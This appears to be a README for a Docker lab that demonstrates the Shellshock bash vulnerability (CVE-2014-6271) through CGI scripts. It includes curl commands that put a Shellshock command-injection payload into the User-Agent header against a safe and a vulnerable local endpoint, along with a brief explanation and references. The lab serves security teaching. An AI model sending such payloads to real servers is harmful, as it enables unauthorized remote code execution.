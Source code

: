 # 2. SHELLSHOCK

## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose build
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```

![image](https://user-images.githubusercontent.com/31791455/140388921-a01d5ec8-6823-4448-af41-508a4f3a1b75.png)


### Explanation
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface \
https://en.wikipedia.org/wiki/Shellshock_(software_bug) \
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf 

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
